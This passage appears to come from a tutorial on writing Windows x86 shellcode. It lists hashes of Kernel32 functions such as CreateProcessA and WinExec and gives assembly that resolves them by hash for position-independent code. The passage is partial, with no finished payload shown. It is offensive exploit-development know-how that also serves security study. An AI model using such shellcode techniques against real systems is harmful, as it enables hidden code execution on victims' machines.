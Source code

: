 [https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfileexa](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfileexa)

[https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

[https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-terminateprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-terminateprocess)

[https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lstrcata](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lstrcata)

We will be utilising these functions to build the remainder of our shellcode. We start with generating the hash for each using the python script as outlined below. We will be updating the table as we build our shellcode.

| Function | Hash | Library |
| --- | --- | --- |
| TerminateProcess | 0x78b5b983 | Kernel32 |
| LoadLibraryA | 0xec0e4e8e | Kernel32 |
| CreateProcessA | 0x16b3fe72 | Kernel32 |
| lstrcatA | 0xcb73463b | Kernel32 |
| GetLastError | 0x75da1966 | Kernel32 |
| GetProcAddress | 0x7c0dfcaa | Kernel32 |
| CopyFileExA | 0x7ee258e7 | Kernel32 |
| GetModuleHandleA | 0xd3324904 | Kernel32 |
| WinExec |  |  |
|  |  |  |
|  |  |  |
|  |  |  |

The `resolve_symbols_kernel32` function is created next. We push the above hashes onto the stack, then call our `find_function`. We then save the address at offsets from EBP in order to ensure our shellcode is position independent. 

```python
" resolve_symbols_kernel32:          "
    "   push  0x78b5b983                ;"  #   TerminateProcess hash
    "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
    "   mov   [ebp+0x10], eax           ;"  #   Save TerminateProcess address for later usage

    "   push  0xec0e4e8e                ;"  #   LoadLibraryA hash
    "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
    "   mov   [ebp+0x14], eax           ;"  #   Save LoadLibraryA address for later usage

    "   push  0x16b3fe72                 ;"  #   CreateProcessA hash
    "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
    "   mov   [ebp+0x18], eax           ;"  #   Save CreateProcessA address for later usage

    "   push  0xcb73463b                ;"  #   lstrcatA hash
	"   call dword ptr [ebp+0x04]       ;"  #   Call find_function
	"   mov  [ebp+0x1c], eax           ;"  #   Save lstrcatA address for later usage

    "   push  0x75da1966                ;"  #   GetLastError hash
    "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
    "   mov   [ebp+0x20], eax           ;"  #   Save GetLastError address for later usage

```